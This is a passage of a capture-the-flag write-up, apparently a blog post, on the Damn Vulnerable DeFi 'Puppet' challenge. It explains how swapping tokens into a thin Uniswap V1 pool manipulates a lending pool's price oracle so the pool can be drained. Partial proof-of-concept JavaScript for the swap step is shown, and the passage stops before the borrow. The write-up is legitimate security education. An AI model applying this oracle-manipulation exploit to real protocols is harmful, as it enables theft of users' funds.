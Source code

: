     it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */
        // Player executed a single transaction
        expect(await ethers.provider.getTransactionCount(player.address)).to.eq(1);
        
        // Player has taken all tokens from the pool       
        expect(
            await token.balanceOf(lendingPool.address)
        ).to.be.eq(0, 'Pool still has tokens');

        expect(
            await token.balanceOf(player.address)
        ).to.be.gte(POOL_INITIAL_TOKEN_BALANCE, 'Not enough token balance in player');
    });
});
{{< /code >}}

Looking at the challenge description and source code, we can see that the target contract `PuppetPool` has `100000` DVTs (Damn Vulnerable Tokens) available for us to borrow. To borrow the DVTs, we need to provide 2 times the value in ETH as collateral. But how does the contract determine the value of DVT/ETH?

The function `calculateDepositRequired(uint256 amount)` returns the amount of ETH required to borrow `amount` tokens. This function calls `_computeOraclePrice()` which queries a Uniswap V1 exchange with 10 ETH and 10 DVT in liquidity. We start with `25` ETH and `1000` DVTs.

# Price Oracle Manipulation

We have much more ETH and DVT than the Uniswap exchange, which we can abuse to manipulate the price of DVT/ETH. For example, if we exchange all `1000` of our DVTs for ETH in the Uniswap exchange, it will drastically increase the supply of DVTs, and reduce the supply of ETH, inflating the price of ETH.

Let's say we swap `1000` DVT for `9.9` ETH. The Uniswap exchange will have `1010` DVT and `0.1` ETH left, and now reports a price of roughly `1` ETH per `10100` DVT. As the lending pool relies on this Uniswap exchange for the price of DVT, it will use this pricing for the collateral, and we can borrow `100000` DVT for around `20` ETH (providing 2 times ETH for collateral), draining the pool and solving the challenge.

We write a quick proof of concept to see this working in action:

{{< code language="javascript" title="puppet.challenge.js" id="3" expand="Show" collapse="Hide" isCollapsed="true" >}}
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    console.log("=== Initial balances & prices ===")
    console.log(`ETH balance: ${await ethers.provider.getBalance(player.address) / (10**18)}`)
    console.log(`DVT balance: ${await token.connect(player).balanceOf(player.address) / (10**18)}`)
    console.log(`Price of 1000 DVT: ${
        await lendingPool.connect(player).calculateDepositRequired(1000n * 10n**18n) / (10**18)
    } ETH`)
    // approve uniswapExchange to use our DVTs
    await token.connect(player).approve(uniswapExchange.address, PLAYER_INITIAL_TOKEN_BALANCE)
    // swap our DVTs for ETH
    await uniswapExchange.connect(player).tokenToEthSwapInput(
        PLAYER_INITIAL_TOKEN_BALANCE, // swapping 10000 DVTs
        99n * 10n**17n, // for 9.9 ETH minimum
        (await ethers.provider.getBlock('latest')).timestamp + 3600 // deadline (not important)
    )
    console.log("=== After manipulation ===")
    console.log(`ETH: ${await ethers.provider.getBalance(player.address) / (10**18)}`)
    console.log(`DVT: ${await token.connect(player).balanceOf(player.address) / (10**18)}`)